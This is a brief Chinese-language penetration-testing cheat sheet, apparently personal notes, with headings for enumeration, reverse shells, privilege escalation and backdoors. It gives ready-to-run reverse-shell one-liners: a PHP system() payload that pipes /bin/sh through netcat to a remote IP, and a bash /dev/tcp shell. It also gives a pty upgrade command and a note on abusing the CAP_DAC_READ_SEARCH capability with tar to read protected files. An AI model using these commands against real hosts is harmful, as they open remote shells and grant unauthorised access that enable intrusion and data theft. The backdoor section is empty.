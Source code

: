 ### 收集信息

#### enum4linux

```
用于枚举Windows和Samba主机中的数据。
```













### 反弹shell

#### netcat反弹

```
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.36.101.179 443 >/tmp/f");?>

```

#### bash反弹

```
bash -i >& /dev/tcp/192.168.1.106/8888 0>1&
```



### 提升权限

#### 升级tty shell

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

#### capabilities提权

```
CAP_DAC_READ_SEARCH 忽略文件读及目录搜索的 DAC 访问限制

使用getcap查看权限，如：tar拥有权限，可以打包后，再解压文件，实现越权读取
```



### 后门
